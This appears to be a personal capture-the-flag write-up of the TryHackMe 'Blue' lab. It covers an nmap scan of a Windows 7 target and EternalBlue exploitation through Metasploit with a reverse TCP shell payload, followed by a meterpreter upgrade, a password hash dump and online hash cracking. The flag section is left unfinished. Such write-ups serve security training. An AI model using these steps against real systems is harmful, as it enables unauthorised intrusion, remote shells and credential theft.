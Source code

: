 # BLUE
> 4lch3my | March 26, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/blue)

## Tasks
##### 1. Recon
  Scan and learn what exploit this machine is vulnerable to.

<br>

To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`
The `-sC` flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The `-sV` probes all open ports it finds to determine if we can get the service/version information. `-A` outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 18:10 UTC
Nmap scan report for MACHINE_IP (MACHINE_IP)
Host is up (0.00046s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-03-26T18:11:44+00:00
|_ssl-date: 2023-03-26T18:11:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-03-25T18:04:55
|_Not valid after:  2023-09-24T18:04:55
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:7D:FF:18:E3:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows .
Nmap done: 1 IP address (1 host up) scanned in 86.79 seconds
```

We can see multiple ports open, but the first thing what my eyes are drawn to is port `445` where a `Windows 7` service is running - `microsoft‑ds`. After a quick google around for `microsoft‑ds`, UI realized this is part of the famous `MS17-010` exploit titled `EternalBlue`. This is a vulnerability posted by Microsoft back in 2017 for vulnerable SMB v1 remote code execution issues. Now that we have what the machine is vulnerable to, time to actually exploit it

##### 2. Gain Access

Right away, let's start `metasploit` a common and very powerfull vulnerability exploiter tool. This can be started with the `msfconsole` command. 

<br>

Now, we can search for the `EternalBlue` vulnerability to see if there is a built in module for this in the tool. This cna be run with: `search eternalblue`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_eternalblue.png?raw=true)

To select it, we can run: `use exploit/windows/smb/ms17_010_eternalblue`

And we can see what needs to be chnaged inside of the modeule with the `options` command:

msf exploit(ms17_010_eternalblue) > options

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_options.png?raw=true)

As we can see, we need to set the `RHOSTS` option, so the exploit can run automatically. We can do this by simply adding:

``` 
set RHOSTS 10.10.182.90
``` 

Also, as requested by the room owner, we will set the paylod to `reverese_tcp`:

``` 
set payload windows/x64/shell/reverse_tcp
``` 

Time to run the exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_run.png?raw=true)                                                                              

And there we go, we have access to the machine. On to Task 3
                                                                                              

##### 3. Escalate

The previously gained shell can now be background with the `CTRL + Z` command,  so we can continue down the rabbit hole.

<br>

And now we will convert our shell to a `meterpreter shell` right inside of `metasploit`! How exiting!

Run the command `search shell_to_meterpreter`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mmfs6_shell_to_met.png?raw=true)

Then `use post/multi/manage/shell_to_meterpreter` & list the sessions with `sessions`:

<br>

Switch:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions.png?raw=true)

And listing sessions: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions2.png?raw=true)

Then `show options`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_show_options.png?raw=true)

Then `set SESSION 1` & run this upgraded exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade.png?raw=true)

Verify that it was successfull:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions.png?raw=true)

And the last step, to actually switch to this upgraded `meterpreter` shell:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions_verify.png?raw=true)

If you want to switch to a Powershell/Windows CMD shell, you can do by simple running: `shell`.

<br>

WOW! That was a mouthfull of infornmation! We can switch to the service `conhost.exe` OR `cmd.exe` on the machine for the verfication as well

##### 4. Cracking

After migration to one of the following services `conhost.exe` OR `cmd.exe` in task 3, we can now dump the passwords using the `hashdump` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs5_hash.png?raw=true)

To crack our users password we can use a site like [THIS ONE](https://crackstation.net/) to do the task for us automatically.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/pasword.png?raw=true)

##### 5. Find flags!

1st flag

A of description > C:\Windows\System32

2nd flag



3rd flag
